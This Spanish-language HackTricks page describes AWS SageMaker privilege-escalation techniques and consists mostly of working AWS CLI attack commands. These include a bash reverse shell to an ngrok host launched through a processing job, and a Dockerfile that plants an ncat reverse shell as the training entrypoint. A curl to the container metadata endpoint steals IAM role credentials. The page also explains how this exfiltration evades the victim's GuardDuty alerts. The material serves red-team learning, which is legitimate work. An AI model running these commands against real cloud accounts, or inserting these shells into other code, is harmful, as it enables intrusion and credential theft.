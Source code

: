 # AWS - Sagemaker Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

El primer paso en este proceso de ataque es **identificar un rol que confíe en SageMaker para asumirlo** (sagemaker.amazonaws.com). Una vez hecho esto, podemos ejecutar el siguiente comando para crear un nuevo cuaderno con ese rol adjunto:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
Si tiene éxito, recibirá el **ARN de la nueva instancia del cuaderno** en la respuesta de AWS. Eso tomará **unos minutos** para activarse, pero una vez que lo haya hecho, podemos ejecutar el siguiente comando para obtener una URL pre-firmada para obtener **acceso a la instancia del cuaderno a través de nuestro navegador web**. Hay potencialmente otras formas de obtener acceso, pero esta es un permiso único y una única llamada a la API, por lo que parecía sencillo.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Si esta instancia estuviera completamente activada, esta llamada a la API devolverá una **URL firmada que podemos visitar** en nuestro navegador para acceder a la instancia. Una vez en la página de Jupyter en mi navegador, haré clic en "Abrir JupyterLab" en la parte superior derecha, lo cual se puede ver en la siguiente captura de pantalla.

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

En la siguiente página, desplázate hacia abajo en la pestaña "Launcher". En la sección "Other", haz clic en el botón "Terminal", que se puede ver aquí.

![](<../../../.gitbook/assets/image (27).png>)

Desde la terminal tenemos algunas opciones, una de ellas sería simplemente **usar AWS CLI**. La otra opción sería **contactar al servicio de metadatos EC2** para obtener directamente las credenciales del rol de IAM y exfiltrarlas.

GuardDuty podría venir a la mente al leer "exfiltrarlas" arriba, sin embargo, no necesitamos preocuparnos por GuardDuty aquí. El hallazgo relacionado de GuardDuty es ["UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration"](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11), que alertará si las credenciales de un rol son robadas de una instancia EC2 y usadas en otro lugar. Afortunadamente para nosotros, esta instancia EC2 no vive realmente en nuestra cuenta, sino que es una **instancia EC2 gestionada alojada en una cuenta propiedad de AWS**. Eso significa que **podemos exfiltrar estas credenciales y no preocuparnos por activar** los detectores de GuardDuty de nuestro objetivo.

**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Similar al ejemplo anterior, si los **cuadernos Jupyter ya están en funcionamiento** y puedes listarlos con sagemaker:ListNotebookInstances (o descubrirlos de cualquier otra manera). Puedes **generar una URL para ellos, acceder a ellos y robar las credenciales como se indica en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un processingjob** con un rol de sagemaker adjunto a él. El atacante puede indicar la definición del contenedor que se ejecutará en una instancia de cuenta ECS gestionada por **AWS**, y **robar las credenciales del rol IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará la shell reversa o las credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos podrá (potencialmente) crear un **trabajo de entrenamiento de hiperparámetros**, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**.\
_No lo he explotado por falta de tiempo, pero parece similar a los exploits anteriores, siéntete libre de enviar un PR con los detalles de la explotación._

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
